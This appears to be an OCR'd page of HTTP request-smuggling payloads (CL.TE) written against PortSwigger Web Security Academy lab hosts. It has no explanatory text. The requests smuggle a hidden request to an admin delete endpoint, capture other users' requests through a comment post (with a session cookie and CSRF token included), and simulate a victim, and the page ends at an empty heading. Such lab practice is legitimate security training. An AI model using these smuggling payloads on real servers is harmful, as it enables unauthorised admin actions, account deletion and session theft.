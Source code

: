 ```
POST / HTTP/1.1
Host: ac1f1f0a1f8b5802c0dd261b00c800f3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 68
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost


====

# CL.TE Post Xploit

POST / HTTP/1.1
Host: ac001f691eefa296c06906df006100eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 322
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac001f691eefa296c06906df006100eb.web-security-academy.net
Cookie: session=E2UEMjsoaOROqMNNacONYRfeHSu72oO1
Content-Type: application/x-www-form-urlencoded
Content-Length: 835

csrf=3YiinGWwJFKC23Odz76V3PtjQGjNmQLJ&postId=8&name=carlos&email=carlos%40carlo.com&website=&comment=



====

# vicsim

GET /my-account HTTP/1.1
X-zimbur: NOGET /my-account HTTP/1.1
Host: acde1f821f1afb5ec028f00500350099.web-security-academy.net
Cookie: session=pcjtCreKAJsw0zSatysVhGpr0UxjypnX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acde1f821f1afb5ec028f00500350099.web-security-academy.net/login
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Te: trailers
Connection: close

=====

# CL.TE - breaker
```